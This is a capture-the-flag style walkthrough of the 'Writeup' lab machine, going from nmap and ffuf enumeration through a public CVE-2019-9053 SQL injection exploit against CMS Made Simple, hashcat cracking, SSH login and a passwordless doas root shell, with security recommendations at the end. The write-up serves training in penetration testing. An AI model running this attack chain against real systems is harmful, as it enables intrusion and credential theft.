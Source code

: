 ![](images/image0.png)

# Writeup CMS Exploitation & Privilege Escalation Walkthrough

This report provides a detailed professional walkthrough of the **Writeup** machine exploitation process.  
It covers enumeration, exploitation of a vulnerable CMS, credential reuse, privilege escalation, and final compromise.

---

## 1. Initial Reconnaissance

We began with an extensive port scan to identify open services and gather version details for potential attack vectors.

```bash
nmap -p- -Pn 10.129.63.103 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.63.103 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.63.103 -v --script vuln -oN nmap_vuln.txt
```

![](images/image8.png)

The results showed **HTTP (80)** and **SSH (22)** services. The HTTP service served a CMS-based website, likely vulnerable to misconfigurations or outdated software components.

---

## 2. Web Enumeration

We launched a directory enumeration scan using **FFUF** to identify hidden resources and CMS directories.

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://writeup.htb/FUZZ -e .php,.html -s
```

![](images/image6.png)

The enumeration revealed `/cms` and `/admin` panels — potential targets for authentication or code execution.

![](images/image5.png)

---

## 3. Identifying the CMS Platform

Upon visiting the `/cms` directory, we confirmed that the site was running **CMS Made Simple**.

![](images/image7.png)

To identify the exact version, we fetched the `doc/CHANGELOG.txt` file, which revealed **CMS Made Simple v2.2.8**.

![](images/image4.png)

This version was known to be vulnerable to **SQL Injection (CVE-2019-9053)**.

---

## 4. Exploiting CMS Made Simple (CVE-2019-9053)

We used a public Python exploit to extract credentials via blind SQL injection.

Exploit reference:  
🔗 [https://github.com/CH3LL0v/CVE-2019-9053](https://github.com/CH3LL0v/CVE-2019-9053)

Execution:

```bash
python3 exploit.py -u http://writeup.htb/cms/ -p user
```

![](images/image3.png)

The exploit successfully dumped hashed credentials from the CMS database.

We then cracked the password using **Hashcat**:

```bash
hashcat -m 20 hashes.txt rockyou.txt
```

Recovered credentials:

```
username: jkr
password: raykayjay9
```

---

## 5. Shell Access via SSH

With the discovered credentials, we connected to the target via SSH:

```bash
ssh jkr@10.129.63.103
```

![](images/image1.png)

The authentication succeeded, granting user-level access to the system.

---

## 6. Local Enumeration

We performed a system-wide search for interesting files and privilege escalation paths.

```bash
find / -perm -4000 2>/dev/null
```

Among the results, a binary named **doas** (a lightweight sudo alternative) stood out.

![](images/image9.png)

---

## 7. Privilege Escalation via `doas` Misconfiguration

Inspecting the configuration file `/etc/doas.conf` revealed that the `jkr` user could execute commands as root **without a password**.

![](images/image2.png)

We leveraged this configuration to spawn a root shell:

```bash
doas /bin/sh
```

![](images/image10.png)

This command provided immediate root-level access.

We retrieved the **root flag** from `/root/root.txt`.

---

## 8. Conclusion

This assessment demonstrates a full compromise chain beginning with CMS enumeration, leading to SQL injection exploitation, credential cracking, and privilege escalation.

### Key Findings:
- Outdated CMS Made Simple version (v2.2.8) vulnerable to CVE-2019-9053.  
- Plaintext credential exposure and weak password practices.  
- Misconfigured `doas` utility allowed passwordless root execution.

### Security Recommendations:
- Update all CMS installations to the latest stable release.  
- Implement web application firewalls (WAF) to detect and block SQLi attempts.  
- Enforce strict password complexity and rotation policies.  
- Restrict administrative utilities (such as `doas`) to trusted users only.  
- Conduct periodic vulnerability assessments and patch management reviews.

---

